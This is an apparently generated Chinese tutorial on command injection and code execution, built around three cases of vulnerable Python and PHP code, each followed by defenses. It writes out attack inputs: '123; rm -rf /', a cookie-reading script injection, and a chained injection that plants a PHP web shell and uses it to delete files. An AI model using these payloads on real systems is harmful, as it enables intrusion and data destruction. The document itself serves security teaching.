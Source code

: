 # 命令注入与代码执行的案例分析

## 1. 概述

命令注入与代码执行是Web应用程序中常见的安全漏洞，攻击者通过利用这些漏洞可以在目标服务器上执行任意命令或代码，进而获取敏感信息、控制系统或破坏服务。本文将通过分析真实世界中的案例，深入探讨命令注入与代码执行的原理、攻击方式及其防御措施。

## 2. 原理

### 2.1 命令注入

命令注入（Command Injection）是指攻击者通过向应用程序输入恶意命令，使得这些命令在服务器端被执行。通常，应用程序会将用户输入的数据作为参数传递给系统命令，如果未对输入进行严格的验证和过滤，攻击者就可以插入额外的命令，导致系统执行这些恶意命令。

### 2.2 代码执行

代码执行（Code Execution）是指攻击者通过向应用程序注入恶意代码，使得这些代码在服务器端被执行。与命令注入类似，代码执行漏洞通常发生在应用程序将用户输入的数据作为代码的一部分进行执行时，如果未对输入进行严格的验证和过滤，攻击者就可以插入恶意代码，导致系统执行这些代码。

## 3. 案例分析

### 3.1 案例一：命令注入漏洞

#### 3.1.1 背景

某电商网站提供了一个功能，允许用户通过输入商品ID来查询商品的库存信息。应用程序会将用户输入的商品ID作为参数传递给系统命令`curl`，以从库存管理系统中获取数据。

#### 3.1.2 漏洞分析

应用程序的代码如下：

```python
import os

def check_stock(product_id):
    command = f"curl http://inventory-system.com/stock?product_id={product_id}"
    os.system(command)
```

攻击者发现，应用程序未对用户输入的商品ID进行任何验证或过滤。于是，攻击者输入以下内容作为商品ID：

```
123; rm -rf /
```

应用程序将执行以下命令：

```bash
curl http://inventory-system.com/stock?product_id=123; rm -rf /
```

这导致服务器执行了`rm -rf /`命令，删除了服务器上的所有文件。

#### 3.1.3 防御措施

为了防止命令注入漏洞，应用程序应对用户输入进行严格的验证和过滤。可以使用以下方法：

1. **白名单验证**：只允许输入符合特定格式的数据，例如只允许数字。
2. **转义特殊字符**：对用户输入中的特殊字符进行转义，防止其被解释为命令。
3. **使用安全的API**：避免直接使用系统命令，使用安全的API来执行操作。

### 3.2 案例二：代码执行漏洞

#### 3.2.1 背景

某社交网站提供了一个功能，允许用户通过输入自定义的JavaScript代码来美化个人主页。应用程序会将用户输入的代码嵌入到页面中并执行。

#### 3.2.2 漏洞分析

应用程序的代码如下：

```php
<?php
$user_code = $_GET['code'];
echo "<script>{$user_code}</script>";
?>
```

攻击者发现，应用程序未对用户输入的代码进行任何验证或过滤。于是，攻击者输入以下内容作为代码：

```javascript
alert(document.cookie);
```

应用程序将执行以下代码：

```html
<script>alert(document.cookie);</script>
```

这导致攻击者可以获取用户的Cookie信息，进而进行会话劫持。

#### 3.2.3 防御措施

为了防止代码执行漏洞，应用程序应对用户输入进行严格的验证和过滤。可以使用以下方法：

1. **输入验证**：只允许输入符合特定格式的数据，例如只允许特定的HTML标签和属性。
2. **输出编码**：对用户输入的数据进行编码，防止其被解释为代码。
3. **内容安全策略（CSP）**：通过设置CSP，限制页面中可以执行的脚本来源，防止恶意代码的执行。

### 3.3 案例三：命令注入与代码执行的组合攻击

#### 3.3.1 背景

某在线教育平台提供了一个功能，允许用户通过输入课程ID来下载课程资料。应用程序会将用户输入的课程ID作为参数传递给系统命令`wget`，以下载指定的文件。

#### 3.3.2 漏洞分析

应用程序的代码如下：

```python
import os

def download_course(course_id):
    command = f"wget http://course-system.com/download?course_id={course_id}"
    os.system(command)
```

攻击者发现，应用程序未对用户输入的课程ID进行任何验证或过滤。于是，攻击者输入以下内容作为课程ID：

```
123; echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

应用程序将执行以下命令：

```bash
wget http://course-system.com/download?course_id=123; echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

这导致服务器创建了一个名为`shell.php`的文件，内容如下：

```php
<?php system($_GET["cmd"]); ?>
```

攻击者可以通过访问`shell.php`文件，执行任意系统命令，例如：

```
http://example.com/shell.php?cmd=rm -rf /
```

这导致服务器执行了`rm -rf /`命令，删除了服务器上的所有文件。

#### 3.3.3 防御措施

为了防止命令注入与代码执行的组合攻击，应用程序应对用户输入进行严格的验证和过滤。可以使用以下方法：

1. **白名单验证**：只允许输入符合特定格式的数据，例如只允许数字。
2. **转义特殊字符**：对用户输入中的特殊字符进行转义，防止其被解释为命令。
3. **使用安全的API**：避免直接使用系统命令，使用安全的API来执行操作。
4. **文件上传限制**：限制用户可以上传的文件类型和内容，防止恶意文件的上传。

## 4. 总结

命令注入与代码执行是Web应用程序中常见的安全漏洞，攻击者通过利用这些漏洞可以在目标服务器上执行任意命令或代码，进而获取敏感信息、控制系统或破坏服务。为了防止这些漏洞，应用程序应对用户输入进行严格的验证和过滤，使用安全的API来执行操作，并采取其他安全措施，如内容安全策略（CSP）和文件上传限制。通过采取这些措施，可以有效降低命令注入与代码执行漏洞的风险，保护Web应用程序的安全。

---

*文档生成时间: 2025-03-11 13:05:18*
